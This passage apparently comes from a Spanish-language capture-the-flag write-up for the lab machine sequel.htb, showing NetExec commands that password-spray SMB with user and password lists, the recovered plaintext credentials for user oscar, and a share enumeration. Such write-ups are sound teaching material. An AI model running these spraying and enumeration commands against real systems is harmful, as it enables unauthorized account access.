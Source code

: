 ## Password Spraying

Procederemos a realizar un _**Password Spraying**_ con el listado de usuarios y contraseñas que disponemos para verificar si disponemos de algunas credenciales válidas.

Verificamos que hemos validado y hemos logrado obtener las credenciales del usuario `oscar@sequel.htb`.

```bash
nxc smb 10.10.11.51 -u users.txt -p passwords.txt --continue-on-success
```

<figure><img src="../../../.gitbook/assets/3479_vmware_fhBs8FAS1p.png" alt=""><figcaption></figcaption></figure>

Revisaremos si disponemos de acceso a algún nuevo recurso compartido SMB, en este caso, el usuario dispone de los mismos permisos del usuario `rose@sequel.htb`.

```bash
nxc smb 10.10.11.51 -u 'oscar' -p '86LxLBMgEWaKUnBG'

nxc smb 10.10.11.51 -u 'oscar' -p '86LxLBMgEWaKUnBG' --shares
```
